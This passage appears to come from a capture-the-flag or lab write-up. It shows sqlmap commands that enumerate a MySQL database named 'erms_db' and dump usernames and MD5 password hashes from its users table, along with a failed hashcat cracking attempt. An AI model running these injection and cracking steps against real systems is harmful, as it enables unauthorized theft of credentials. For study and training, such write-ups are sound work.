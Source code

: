 let's see if we can identify the hash type and crack these

it seems they are md5, let's see if we can crack them. Create a local file with the hashes and run hashcat

```bash
> hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
```

none were crackable, but at least we found some usernames

let's look in the other databases

```bash
> sqlmap -r admin.req --dbms=mysql -D erms_db --tables

...SNIP
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
...SNIP

> sqlmap -r admin.req --dbms=mysql -D erms_db -T users --columns

...SNIP
[11:49:54] [INFO] retrieved:
[11:49:59] [INFO] adjusting time delay to 1 second due to good response times
id
[11:50:05] [INFO] retrieved: int(50)
[11:50:32] [INFO] retrieved: firstname
[11:51:01] [INFO] retrieved: varchar(250)
[11:51:41] [INFO] retrieved: lastname
[11:52:07] [INFO] retrieved: varchar(250)
[11:52:46] [INFO] retrieved: username
[11:53:10] [INFO] retrieved: text
[11:53:28] [INFO] retrieved: password
[11:53:58] [INFO] retrieved: text
[11:54:15] [INFO] retrieved: avatar
[11:54:32] [INFO] retrieved: text
[11:54:50] [INFO] retrieved: last_login
[11:55:30] [INFO] retrieved: datetime
[11:55:55] [INFO] retrieved: type
[11:56:11] [INFO] retrieved: tinyint(1)
[11:56:51] [INFO] retrieved: date_added
[11:57:24] [INFO] retrieved: datetime

...SNIP

> sqlmap -r admin.req --dbms=mysql -D erms_db -T users -C username,password --dump

...SNIP
[3 entries]
+------------------+----------------------------------+
| username         | password                         |
+------------------+----------------------------------+
| Stev1992         | 184fe92824bea12486ae9a56050228ee |
| UndetectableMark | 48bb86d036bb993dfdcf7fefdc60cc06 |
| admin            | fc8ec7b43523e186a27f46957818391c |
+------------------+----------------------------------+
...SNIP
```